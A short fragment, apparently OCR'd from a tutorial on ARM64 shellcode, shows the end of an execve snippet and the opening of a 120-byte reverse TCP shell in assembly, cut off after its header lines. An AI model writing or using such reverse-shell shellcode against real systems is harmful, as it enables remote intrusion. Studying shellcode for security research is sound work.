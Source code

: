 ```assembly
    add    x1, sp, 32            // x1 = argv
    mov    x8, SYS_execve
    svc    0
cmd:
    .asciz "echo Hello, World!"
```

### 6.5 Reverse connecting shell over TCP.

The reverse shell makes an outgoing connection to a remote host and upon connection will spawn a shell that accepts input. Rather than use PC-relative instructions, the network address structure is initialized using immediate values.

```assembly
// 120 bytes

    .arch armv8-a

    .include "include.inc"

    .equ PORT, 1234
